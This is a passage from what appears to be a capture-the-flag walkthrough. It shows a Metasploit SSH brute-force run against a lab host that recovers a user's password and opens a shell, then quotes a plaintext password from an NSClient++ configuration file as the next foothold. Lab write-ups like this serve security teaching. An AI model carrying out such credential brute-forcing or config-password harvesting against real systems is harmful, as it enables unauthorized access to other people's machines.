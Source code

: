 msf5 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.10.10.184
rhosts => 10.10.10.184
msf5 auxiliary(scanner/ssh/ssh_login) > set user_file users.txt
user_file => users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set pass_file passwords.txt
pass_file => passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' ''
[*] Command shell session 1 opened (10.10.16.87:44279 -> 10.10.10.184:22) at 2020-05-19 20:14:31 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_login) > 
{% endhighlight %}


It found a valid credential. Perfect, lets access it on ssh. Keep in mind to always do some enumeration and look what exists on machine and what config it does have. If a service doesnt sound promising, check google and config. With this approach we can find
C:\Program Files\NSClient++\nsclient.ini

It has an interesting part

{% highlight ini %}
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

; Undocumented key
WEBServer = enabled
{% endhighlight %}

